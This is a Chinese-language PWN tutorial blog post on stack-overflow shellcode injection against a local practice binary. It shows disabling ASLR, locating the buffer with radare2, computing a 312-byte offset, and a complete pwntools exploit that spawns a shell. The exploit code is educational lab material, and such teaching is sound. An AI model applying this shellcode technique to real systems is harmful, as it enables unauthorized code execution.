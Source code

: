 ```yaml
---
title: Shellcode
subtitle: 运行你自己的指令
date: 2023-08-08T05:09:08+08:00
draft: false
author:
  name: CuB3y0nd
  link:
  email:
  avatar:
description:
keywords:
license:
comment: true
weight: 0
tags:
  - PWN
  - Stack
categories:
  - PWN
hiddenFromHomePage: false
hiddenFromSearch: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:
---
```


在真正的漏洞利用中，你不太可能拥有 `win()` 函数。Shellcode 是一种允许 **运行你自己的
指令** 的方法，使你能够在系统上运行任意命令。

**Shellcode** 本质上是 **汇编指令**，一旦我们将它输入到二进制文件中，它就会覆盖
返回指针以劫持代码，指向并执行我们自己的指令。

{{<admonition type="warning">}}

我保证你可以相信我，但你永远不应该在不知道 shellcode 作用的情况下运行它。
Pwntools 很安全，并且几乎拥有你需要的所有 shellcode。

{{</admonition>}}

Shellcode 成功的原因是 [冯·诺伊曼结构](https://zh.wikipedia.org/wiki/%E5%86%AF%C2%B7%E8%AF%BA%E4%BC%8A%E6%9B%BC%E7%BB%93%E6%9E%84)（当今大多数计算机使用的体系结构）不区分
数据和指令——无论你告诉它在哪里运行或运行什么内容，它都会尝试运行它。因此，
即使我们输入的是攻击指令，计算机也不知道这一点，我们可以利用它来发挥我们的优势。

<!--more-->

{{< link href="/pwn_assets/shellcode.zip" content="shellcode.zip" title="Download shellcode.zip" download="shellcode.zip" card=true >}}

## 0x01 禁用 ASLR

ASLR 是一种安全技术，虽然它不是专门为对抗 shellcode 而设计的，但它涉及随机化
内存的某些方面（我们稍后将更详细地讨论它）。这种随机化可能会使我们的 shellcode
变得不可靠，所以我们现在将 [禁用](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization) 它。

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

{{<admonition type="info">}}

类似这样的功能性指令以后还会碰到更多，我建议使用 `alias` 为它们创建一个别名。
因为就算不考虑能不能记住这些指令，如果每次都手动输入那么长的指令也是一件很
浪费时间的事情。

{{</admonition>}}

{{<admonition type="warning">}}

再次强调，如果你不知道指令的作用，则永远不要运行该指令。

{{</admonition>}}

## 0x02 确定缓冲区位置

使用 `radare2` 调试 `vuln()` ，并找出缓冲区在内存中的起始位置；这就是我们
想要将返回指针指向的位置。

```bash
$ r2 -d -A ./vuln

[0xf7fe3fd0]> s sym.unsafe; pdf
[...]
; var int32_t var_134h @ ebp-0x134
[...]
```

打印出来的这个值是一个 **局部变量**。根据它的大小，可以判断出它很可能是缓冲区。
让我们在 `gets()` 之后设置一个断点并找到确切的地址。

```bash
[0x08049172]> db 0x080491a8
[0x08049172]> dc
Overflow me
<<IM HERE>>         <== This was my input
INFO: hit breakpoint at: 0x80491a8
[0x080491a8]> px @ ebp-0x134
- offset -  B4B5 B6B7 B8B9 BABB BCBD BEBF C0C1 C2C3  456789ABCDEF0123
0xffffd6b4  3c3c 494d 2048 4552 453e 3e00 2e4e 3df6  <<IM HERE>>..N=.
[...]
```

它似乎位于 `0xffffd6b4`；如果我们多次运行二进制文件，它应该保持在原来的位置
（如果没有，请确保 **禁用 ASLR！**）。

## 0x03 计算溢出 Padding

现在我们需要计算溢出 Padding。我们将使用 De Bruijn 序列，如上一篇博客文章中所述。

```bash
$ ragg2 -r -P 500
<COPY THIS>

$ r2 -d -A ./vuln
[0xf7fe3fd0]> dc
Overflow me
<<PASTE HERE>>
[0x73424172]> wopO `dr eip`
312
```

得到溢出 Padding 是 312 字节。

## 0x04 编写 EXP

为了使 shellcode 正确，我们将把 `context.binary` 设置为我们的二进制文件；
这会获取诸如架构、操作系统和位数之类的东西，并使 pwntools 能够为我们提供
shellcode。

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()
```

{{<admonition type="info">}}

我们可以只使用 `process()` ，因为一旦设置了 `context.binary` 就默认假定
使用该进程。

{{</admonition>}}

现在我们可以使用 pwntools 出色的 shellcode 功能轻易的构建 shellcode 。

```python
# 构建 Shellcode
payload = asm(shellcraft.sh())
# 溢出 Padding
payload = payload.ljust(312, b'A')
# Shellcode 的地址
payload += p32(0xffffd6b4)
```

现在让我们将其发送出去并使用 `p.interactive()`，它使我们能够与
shell 通信。

```python
log.info(p.clean())

p.sendline(payload)

p.interactive()
```

{{<admonition type="warning">}}

如果你收到 `EOFError`，请打印出 shellcode 并尝试在内存中查找它。
栈地址可能是错误的。

你可以参考这篇 [博客](https://www.cubeyond.net/ret2win/) 中的方法来解决这个问题。

{{</admonition>}}

```bash
$ python3 exp.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 3903
[*] Overflow me
[*] Switching to interactive mode
$ whoami
cub3y0nd
$ ls
exp.py  source.c  vuln
```

## 0x05 最终 EXP

```python {title="exp.py"}
from pwn import *

context.binary = ELF('./vuln')

p = process()

# 构建 Shellcode
payload = asm(shellcraft.sh())
# 溢出 Padding
payload = payload.ljust(312, b'A')
# Shellcode 的地址
payload += p32(0xffffd6b4)

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

## 0x06 总结

- 当提示输入时，我们注入了 shellcode（一系列汇编指令）
- 然后，我们通过覆盖栈上保存的返回指针以指向我们的 shellcode
来劫持代码执行
- 一旦返回指针弹出到 EIP 中，它就指向我们的 shellcode
- 这导致程序执行我们的指令，为我们（在本例中）提供了用于执行
任意命令的 shell
